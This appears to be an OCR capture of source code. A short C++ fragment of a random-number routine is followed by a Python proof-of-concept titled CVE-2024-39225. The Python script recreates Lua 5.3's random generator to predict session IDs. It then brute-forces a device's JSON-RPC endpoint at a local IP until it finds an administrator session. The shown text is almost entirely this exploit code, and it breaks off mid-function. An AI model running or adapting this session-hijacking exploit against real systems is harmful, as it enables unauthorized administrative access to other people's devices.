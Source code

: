 ```cpp
	k = x[i]>>1;
	if (++i == n)
		i = 0;
	if (++j == n)
		j = 0;
end:
	return k;
}
```


```python
#CVE-2024-39225.py
import time
import requests
import concurrent.futures
from requests.adapters import HTTPAdapter, Retry
from ctypes import *

requests.packages.urllib3.disable_warnings()
h = {'Content-type':'application/json;charset=utf-8', 'User-Agent':'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'}
retry = Retry(total=5, backoff_factor=1, status_forcelist=[429, 500, 502, 503, 504])
s = requests.Session()
s.mount('http://' , HTTPAdapter(max_retries=retry))
s.mount('https://', HTTPAdapter(max_retries=retry))
s.headers = h
s.verify = False
s.keep_alive = True
timeout = 20
max_backward_seconds = 3000

RAND_MAX = 2147483647

def lua53_math_randomseed(s):
    call.mysrandom(s)
    call.myrandom()

def lua53_math_random(max):
    return int(call.myrandom() * (1.0 / (RAND_MAX +1.0)) * max) + 1

def generate_id(n):
    s = []
    t = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z",
        "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]
    for i in range(n):
        a = lua53_math_random(len(t))-1
        s.append(t[a])
    return "".join(s)
    

def makeRequest(sid):
    j = {"jsonrpc":"2.0","id":1,"method":"alive","params":{"sid":sid}}
    r = s.post("http://192.168.122.130/rpc", json=j, timeout=timeout)
    if "Access denied" not in (r.text):
        print("[*] An admin SID found: \033[1m%s\033[0m" %sid)
        return sid
    
def bruteForce():
    counter = 1
    e = concurrent.futures.ProcessPoolExecutor(max_workers=8)
```